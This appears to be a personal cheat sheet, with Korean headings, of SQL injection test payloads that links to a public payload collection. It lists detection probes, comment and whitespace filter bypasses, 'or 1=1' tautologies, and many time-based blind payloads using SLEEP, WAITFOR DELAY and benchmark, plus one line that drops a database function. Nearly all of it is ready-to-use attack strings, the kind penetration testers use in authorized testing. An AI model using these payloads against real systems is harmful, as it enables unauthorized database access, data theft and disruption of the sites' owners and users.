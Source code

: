 # SQLInjection

`
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
`

SqIinjection 테스트 코드 

탐지 점검
```
&apos;
'
%%2727
%25%27
```

`
select ‘abc’ || ‘def’;
`

```
/**/and/**/1=1/**/--
(1)and(1)=(1)
%09and%091=1%09--
%0Dand%0D1=1%0D--
%0Cand%0C1=1%0C--
%0Band%0B1=1%0B--
%0Aand%0A1=1%0A--
%A0and%A01=1%A0--
```



```
or 1=1 -- 
' or 1=1 -- 
" or 1=1 -- 
1 and 1=2 -- 
```

```
'//AND//'1%'='0 
```

주석으로 우회 
```
'/**/AND/**/'1%'='0
```

시간 기반 테스트 
```
'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z
'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
```

```
';WAITFOR DELAY '0:0:5'--
```

테스트
```
'||(SELECT 0x615a636e FROM DUAL WHERE 7192=7192 AND (SELECT 4865 FROM (SELECT(SLEEP(5)))VDbe))||'
```

```
`=`1` AND ELT(1337=1337 AND ELT(1337=1337,SLEEP(5*5)))|[1
```

OR x=y     

HAVING 1=0

AND 1=0


AND 7=9 AND (5=5
 AND 7=9 AND ('5=5
 AND 7=7 AND 'Z'='Y
 AND 7=7 AND ('Z'='Y
 WHERE 1=1 AND 1=0

AND SLEEP(15)
+ SLEEP(10) + '
' AnD SLEEP(15) ANd '1
(SELECT * FROM (SELECT(SLEEP(15)))ecMj)
+benchmark(3200,SHA1(1))+'
ORDER BY SLEEP(15)
'&&SLEEP(15)&&'1
0' AND SLEEP(15)
';WAITFOR DELAY '0:0:30'--
'+WAITFOR+DELAY+'0:0:10'--+-"

(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
'+(select*from(select(sleep(7*7)))a)+'
 OR 3=3 AND ('W' LIKE 'Y
AND (SELECT * FROM (SELECT(SLEEP(15)))bAKL) AND 'vRxe'='vRxe
IF(7=4) SELECT 7 ELSE DROP FUNCTION xcjl--
%' AND 1=8 AND '%'='
